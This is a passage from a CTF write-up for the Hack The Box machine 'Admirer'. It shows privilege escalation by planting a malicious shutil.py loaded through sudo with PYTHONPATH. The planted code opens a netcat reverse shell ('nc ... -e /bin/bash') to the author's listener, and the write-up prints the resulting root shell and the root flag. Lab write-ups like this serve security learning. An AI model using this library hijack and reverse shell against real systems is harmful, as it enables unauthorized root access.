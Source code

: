```python
TypeError: make_archive() takes 0 positional arguments but 3 were given
whoami
waldo
waldo@admirer:/dev/shm$ nano shutil.py
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ I am groot
```

After trial and error, I was able to get my library to be loaded and executed, though I did not get a shell like I expected. However, I could see that the output of the `whoami` command did appear, so I had proof that I could run commands as root. 

I got an error when trying to exploit this with version one of my evil python library, but that error also confirmed that I was making progress. It told me that my `make_archive()` function takes 0 positional arguments but the script that was calling it was feeding it three.

```python
import os

def make_archive(a, b, c):
    os.system('/bin/bash')
    os.system('echo I am g`whoami`'')
    os.system('nc 10.10.15.57 12345 -e /bin/bash')
```

I modified my function to take 3 arguments \(which I didn't use for anything\), and also added a line to send me a reverse shell since calling a new shell wasn't working, and then it worked just fine. I didn't expect the version of `nc` that was installed to have `-e` capability, but I was happy it did!

```python
waldo@admirer:/dev/shm$ nano shutil.py 
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ I am groot
```

### Root.txt

```text
zweilos@kali:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.187] 60956
whoami
root
cat /root/root.txt
0f4b44fb50b2c25de7e1464a2ea8b877
```

Thanks to [`polarbearer`](https://www.hackthebox.eu/home/users/profile/159204) and [`GibParadox`](https://www.hackthebox.eu/home/users/profile/125033) for creating this fun and interesting machine that taught me some new ways to take advantage of some common vulnerabilities and misconfigurations.

If you have comments, issues, or other feedback, or have any other fun or useful tips or tricks to share, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or in the comments below!
